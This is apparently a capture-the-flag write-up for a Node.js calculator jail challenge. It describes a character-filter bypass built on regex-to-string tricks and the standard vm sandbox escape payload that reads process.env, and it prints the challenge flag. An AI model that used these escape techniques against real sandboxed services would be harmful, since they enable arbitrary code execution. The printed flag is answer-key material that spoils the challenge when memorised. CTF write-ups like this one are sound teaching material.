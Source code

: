 # SymCalcjs
## JAIL - Hard
| author | first blood | solves | points |
| --- | --- | --- | --- |
| k3v1n | _ | 0 | 0 |
### prompt
We ported our state-of-the-art calculator to Node.js because we were tired of Python's security issues...

### original specification
We explicitly allow the following characters:
- alphanumeric
- `+, -, /, *` (operations)
- `=, <, >` (for comparisons)
- `[, ]` (for doing stuff with arrays)
- `(, )` (for operation precedence)

In other words, we explicitly ban the following:
- `.` (no accessing children)
- `!` (would literally enable JSfuck lol)
- No quotes of any kind

In addition, we run everything through the standard node module `vm`.

There are two stages to this challenge, first you need to bypass the character restrictions to be able to write whatever you want, and secondly, you need to break from the child process jail. 

The first stage can be done with the following:
`let source = String(/s/)[1] + String(/o/)[1] + String(/u/)[1] + String(/r/)[1] + String(/c/)[1] + String(/e/)[1]`

After which, you can create arbitrary strings with `/string/[source]` and access arbitrary children with `console[/log/[source]]`
Functions can also still be written with anonymous functions, which don't require curly braces: `() ⇒ result`

Next, you need to create an exploit to escape the vm, of which the simplest solution is this.constructor.constructor(”return process.env.FLAG”)(), but with the character restriction, this will be tricky to pull off...

**flag:** `sdctf{JaVaScriPT_SynTAX_Is_ADmirab1e}`

